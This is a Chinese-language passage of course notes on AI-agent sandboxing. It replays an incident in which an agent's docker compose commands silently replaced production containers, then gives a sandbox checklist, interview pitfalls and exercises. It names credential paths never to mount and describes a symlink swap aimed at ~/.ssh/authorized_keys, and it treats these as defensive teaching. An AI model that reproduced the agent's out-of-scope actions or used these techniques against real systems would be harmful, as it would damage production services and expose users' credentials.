**实跑判据（S6）**：`cd sandbox-demo && npm run demo`，末尾出现 `✅ 重放一致性断言通过`（A 组仅权限门、B 组四通道+沙箱各跑 3 次、转录逐字节一致）。这是「系统行为可复现」的机器可核证据——不是「跑过一遍」，是「跑 N 遍都一字不差」（克隆判据见 course-structure.ts 的 practicalOutput）。

### S6.1 崩溃恢复窗口：写前 / 写后 / 提交中

可复现的敌人之一,是"崩溃点不同导致状态不同"。把一次**写入型**工具调用拆成四个阶段,就有四个不同的崩溃窗口(呼应从零写 harness §6-7 的 intent/exec 与 durable execution):



- **崩溃点 A（写前）**：副作用未发生 → 重试安全。对应"未执行"。
- **崩溃点 B（写后未提交）**：可能产生半截文件/毒快照。对策：先写临时文件再 `rename` 原子替换；快照要在 quiesce 或 COW 下取（S8 snapshot 一致性）。
- **崩溃点 C（已提交未记录）**：就是 harness §7 的"**结果未知**"——不能盲目重放，先核对现状；非只读/非幂等操作尤其危险（`docker compose up` 正是这类）。
- **崩溃点 D（已记录）**：事实已落日志，不重放，直接从记录恢复。

幽灵事故的反面教材：`compose build+up` **非幂等且无 scope**，重放=再次污染生产。所以"可复现"不只指测试可复现，也指**恢复时不会把副作用重做一遍**。

### S6 的失败模式

- **把"重放测试通过"当"系统确定"**：测试的确定性来自 mock/逻辑时钟，生产里一旦引入墙钟、随机数、外部状态，确定性就破了。
- **pin 了依赖没 pin 模型**：模型版本静默轮换（`#41`）足够让评测结果跨天不可复现。
- **快照不等于一致快照**：写一半的快照恢复出来是"毒状态"。

---

## S7 实战走查：幽灵事故按时间线重演

把 `sandbox-demo` 的剧本和真实事故并排走一遍：每一步先看**agent 当时的动作**，再看**当时的权限/隔离状态**，归因"**为什么会越权**"，最后给出**修复后同一动作会被拦在哪一层**（用 S1 的 C/V/W 与 S3.5 的四层校验定位）。

### S7.1 时间线（8 步）

| 步 | 时刻 | agent 动作 | 当时的权限/隔离状态 | 为什么越权（缺哪层） | 修复后拦在哪一层 |
|---|---|---|---|---|---|
| 0 | 事故前 | 并行会话在 `/home/ubuntu/app` 下启动，上下文/工作区指向旧 AINews 树 | 无会话级工作区隔离；4 个 docker 项目共享宿主 | 没有 **W 工作区边界**，"哪个目录/哪个 compose 项目"靠约定 | W：每会话独立 worktree + compose project 前缀 |
| 1 | 18:00 | `read_file work/ainews-old/README.md` 定位自己 | 权限门 allow（read 低风险） | 读本身无害；错的是它把会话**锚定在幽灵树** | V：workspace 只暴露本会话树，幽灵树不可见 |
| 2 | 18:00 | `docker compose build`（dir=`work/ainews-old`） | 权限门 allow（compose 是合法工具） | 合法工具+合法命令，但 build context 指向幽灵树 | C→**sandbox 通道**：build 在隔离命名空间，产物不进生产镜像 |
| 3 | 18:00:09 | `docker compose up`（按容器名 `finfo-worker`/`finfo-api`） | 无沙箱；动作面=本机 root | 按容器名替换，正好命中生产容器名 | **sandbox 通道**：up 只在自己命名空间创建容器，生产不可见 |
| 4 | 18:00–18:25 | 幽灵代码在跑（缺 editorial/ledger/labeler） | 无行为漂移检测 | 没有审计/漂移告警，事故**静默**运行 25 分钟 | 审计层：容器创建时间/构建来源异常 → 告警 |
| 5 | ~18:25 | 运维查容器创建时间，发现被换 | 事后规则"动生产容器前查创建时间" | 规则是**事后校验**，能发现不能阻止 | 事前边界生效后，该规则降级为双保险 |
| 6 | 18:25 | 重建 worker/api（main `5caa4ed`）+ 数据面检查 | 恢复流程 | — | 恢复 + 事故重放测试（S2 剧本） |
| 7 | 事故后 | 长出规则 + 沙箱化改造 | — | — | 四通道 policy + C/V/W 三层边界 + 可重放验收 |

**重演的意义**：A 组（仅权限门）在 step 3 之后 `check_container` 报 `⚠️ finfo-worker 被替换!`——事故完整复现；B 组（四通道+沙箱）step 3 经 sandbox 通道在 `ns=sandbox` 内执行、step 4 报 `✅ finfo-worker 正常`。**同一剧本、同一命令，差别只在"有没有 sandbox 通道与隔离世界视图"。**

### S7.2 最小沙箱检查单（上线前必须确认 15 项）

> 用法：新 agent 服务上线前逐条打勾；每一条都对应上面某个失败模式或 S8 的某个常见错误。

1. **workspace 根固定 + 路径 canonicalize**：拒绝绝对路径、`..` 越根、NUL；不依赖进程 cwd。
2. **默认 deny**：没写规则的工具/参数一律不放行（安全默认）。
3. **sandbox 通道强制**：所有构建/部署/网络类工具走隔离命名空间，不允许"直接执行"。
4. **网络 egress 默认关 + 域名白名单**：最难关的一档，白名单要收窄（防 gist/raw 外发）。
5. **env 白名单**：凭据/密钥不进 agent 可见 env；`print_env` 只能看到白名单项。
6. **凭据零常驻**：按需注入、短过期、任务结束回收；优先 harness 代执行。
7. **不挂载宿主敏感路径**：`docker.sock`、`~/.ssh`、`~/.aws`、生产 `.env` 一律不进沙箱。
8. **非 root + 资源上限**：cgroup 限 CPU/内存/进程数/磁盘；不让 agent 以 root 跑。
9. **会话级命名空间**：pid/net/mount 隔离 + 独立 compose project 前缀；**不直绑宿主端口**。
10. **创建时间/构建来源可查**：容器、进程、镜像的"何时/从哪棵树上构建"可审计。
11. **审计留痕**：intent/exec/判定全量（脱敏后）留痕；异常外发=最高级告警。
12. **非幂等操作默认不盲重放**：`build/up/append/转账/发消息` 需幂等键或人工确认。
13. **快照一致性**：quiesce 或 COW 原子快照，避免 torn snapshot 恢复出毒状态。
14. **TOCTOU 防护**：check 与 use 之间不信任路径（`openat`+`O_NOFOLLOW`/文件描述符）。
15. **拒绝也回写**：`denied`/`blocked` 都是合法结果，必须回到模型上下文，否则模型会重试或误判。

---

## S8 常见错误与面试官追问

这一节是面试的"陷阱区"——每一条都是沙箱实现里真实会踩的坑，配一句面试官可能的追问。

### S8.1 cwd 残留（cwd residue）

**错误**：执行层依赖进程当前工作目录（cwd），或工具调用之间假设 cwd 不变。真实系统里 cwd 可能被上一个命令 `cd` 改变、被 shell 工具继承、或在持久 shell 与一次性 shell 之间行为不同；并行会话更会让"相对路径"落到别人的目录。

- 现象：相对路径 `./out/notes.md` 写进了错误的树；幽灵事故里会话的上下文/工作区锚定在了旧树。
- 对策：**路径一律先 canonicalize 到 session 的 workspace 根**，不读进程 cwd；持久 shell 显式固定 cwd；并行会话各自独立 worktree。
- **面试官追问**："你怎么区分'用户故意 `cd`'和'cwd 被意外继承'？"——答：工具契约里路径参数强制绝对/根相对，cwd 只作为显示信息，不作为解析依据。

### S8.2 TOCTOU（Time-of-Check to Time-of-Use）

**错误**：先检查路径/资源合法，再执行操作，检查与使用之间存在时间窗口——攻击者可以在窗口里把目标换成符号链接/替换文件/换挂载。

- 现象：`assertInWorkspace` 通过后，`write_file` 打开的是一个刚被换成指向 `~/.ssh/authorized_keys` 的符号链接。
- 对策：用文件描述符（`openat` + `O_NOFOLLOW`）在内核侧解析并在同一 fd 上操作；或先 `realpath` 再在锁下打开；必要时把 check+use 做成原子操作。demo 的纯字符串校验是教学简化，真实实现要补这一层。
- **面试官追问**："canonicalize 之后为什么还不够？"——答：canonicalize 解决的是"当下这个字符串指向哪"，TOCTOU 解决的是"从解析到你动手之间它变了没"。

### S8.3 挂载 / 端口

**错误**：容器把宿主目录/端口直接暴露给沙箱，或并行会话抢占同一宿主端口。

- 现象：bind mount 了宿主工作区 → 沙箱能改宿主；`docker compose` 两个项目都映射宿主 `80` → 后起的替换/顶掉先起的服务（FinHot 的"4 项目共享宿主"）。
- 对策：只挂载会话专属的临时卷/overlay；**绝不 bind 宿主敏感目录**；端口用动态分配或 per-session network namespace，不做宿主端口直绑。
- **面试官追问**："agent 需要访问一个本地服务怎么办？"——答：通过 harness 代理/Unix socket 转发并受 policy 管辖，而不是给它宿主网络。

### S8.4 凭据挂载

**错误**：为了方便，把 `~/.ssh`、`~/.aws`、`~/.netrc`、`.env` 或 `docker.sock` 挂进沙箱。这等于撤销了 S4 的全部工作。

- 现象：agent 一旦被注入，挂进来的凭据就是现成的"出圈钥匙"；`docker.sock` 更是等价 root。
- 对策：凭据留在 vault/宿主侧，由**代执行代理**按任务注入短期 token；沙箱内进程结构性拿不到长期凭据（对齐 2026 行业做法：凭据不可被沙箱触及、代理代签）。
- **面试官追问**："`pip install` 私有源需要认证怎么办？"——答：让代理在出网边界注入，不进 agent env/挂载。

### S8.5 snapshot 一致性

**错误**：对正在运行的沙箱/进程直接拍快照，恢复后文件系统与内存/进程状态不一致。

- 现象：torn write、半截数据库页、恢复后进程以为写完了但磁盘没有（或反之）。
- 对策：quiesce（暂停写入）后快照；用支持 COW 的文件系统原子快照；microVM 用 hypervisor 级整机快照并保证设备状态一致；配合 S6.1 的"临时文件 + 原子 rename"。
- **面试官追问**："云 agent 等 CI 的异步空档很长，你怎么做到随时可迁移？"——答：整机快照（Cognition 云 agent 的做法），前提就是一致快照。

### S8.6 其他高频追问

- **"sandbox 通道和 deny 有什么区别？"** → sandbox=隔离执行（动作发生但在边界内），deny=不做；审计/恢复语义不同（本课 S2/S2.5 的重点修正）。
- **"默认 deny 会不会让 agent 什么都干不了？"** → 会给可用性带来成本；做法是"最小可用集 + 参数级规则 + approve 兜底"，而不是默认放行。
- **"审计要全量，合规要脱敏，怎么办？"** → 三档：日志存摘要+指针、敏感字段 token 化、全量落加密对象存储并限权访问（呼应 observability.md 的回放需求）。

---

## 练习题库（后续提问用）

| # | 题目 | 考察 |
|---|---|---|
| 1 | 权限门、沙箱、提示词三层各给一个"单独存在必被绕"的攻击链 | S1 |
| 2 | Codex CLI 本地为什么敢用进程级而不是容器？什么条件下这个选择错了？ | S3 |
| 3 | agent 环境里必须有一个 GitHub token 才能推 PR。给出三档收紧方案（从弱到强） | S4 |
| 4 | 你的沙箱关死了网络，agent 需要 `pip install` 怎么办？ | S3 egress |
| 5 | "容器创建时间检查"这条规则，沙箱化之前/之后分别是什么性质的防线？ | S5 |
| 6 | 轨迹重放两次，输出差了一个文件名的字母。列四个可能的隐藏非确定源 | S6 |
| 7 | 多租户 agent 平台：沙箱池怎么设计（复用/隔离/凭据注入时机）？ | S3+S4 |
| 8 | 幽灵事故里，如果只有权限门没有沙箱，最小拦截点在哪一步？为什么当时没拦住？ | S1+S2 |
| 9 | sandbox 通道与 deny 通道语义有什么不同？画出同一 `docker compose up` 在两条通道下的审计/恢复差异 | S2/S2.5 |
| 10 | 一个会话在工具调用里 `cd` 到别的目录后，下次用相对路径——哪一层该发现 cwd 漂移？怎么设计？ | S1 + S8.1 |
| 11 | 路径 canonicalize 已通过，到真正写入之间被换成符号链接。这是什么问题？怎么消掉窗口？ | S3.5 + S8.2 |
| 12 | 并行会话共享宿主，两个 compose 项目都映射宿主 80 端口。会发生什么？沙箱化后怎么避免？ | S3 + S8.3 |
| 13 | 为了让 agent 装私有依赖，把 `~/.netrc` 挂进沙箱——重新引入了什么问题？替代方案？ | S4 + S8.4 |
| 14 | 对正在运行的 microVM 拍快照，恢复后进程状态与磁盘不一致。怎么保证一致快照？ | S6.1 + S8.5 |
| 15 | 审计要求工具结果全量留存，合规要求脱敏。设计三档折中（含成本与可回放性） | S5 + S8.6 |
| 16 | Kernel 四层校验（canonicalize/许可/lockdown/审计）里，哪一层"静默失败"最危险？为什么？ | S3.5 |

## 来源与锚点（2026-10 核实回填）

- 隔离技术已核实（2026-10-11 复核，Codex 官方 docs sandboxing）：Codex CLI 本地沙箱=macOS Seatbelt；Linux/WSL2=bubblewrap(bwrap)+seccomp（Landlock 文件系统实现已降为 legacy，受限策略下会拒绝 legacy 模式）；E2B=Firecracker microVM（e2b.dev 明示，快照式启动，未公开固定毫秒/内存基线）；gVisor=用户态内核（gvisor.dev 定位）。
- `sandbox-demo` 实证（2026-10-11 本机实测，Node v22.23.2）：`npm run demo` 全流程通过，A/B 各 3 次重放 sha256 golden diff 一致；`npm run typecheck` exit 0；src 600 行。
- 教学素材：FinHot 幽灵事故（`#35` 记忆 + 事故后规则）、并行会话污染（`#36`）、`.env` 凭据面（`#4`）、模型静默下架（`#41`）。
- 轨迹/审计对齐：`harness-demo/src/session.ts`（JSONL 事件）、`src/agent.ts`（intent/exec 与截断）、`src/otel.ts`（OTel GenAI span）；对照 `notes/harness-from-scratch.md` ⑥ 与 `notes/observability.md` S2/S3（发现 exec/结果截断的口径差异，见 S5.1，仅记录不改他文件）。
- 待回填锚点（见开篇）：Claude Code 供应链事故 2025-07、rig-skill —— 已核实「查无公开一手源」，暂不作为教学例证，待作者回填内部来源后再启用。
- 接回：从零写 harness §⑤（policy 三层）/ 从零写 harness §⑥⑦（日志=审计底账）/ Harness 架构 §7（权限与信任）/ 评测工程化（可复现=评测前提）/ durable execution（durable execution=崩溃窗口的工程化）。
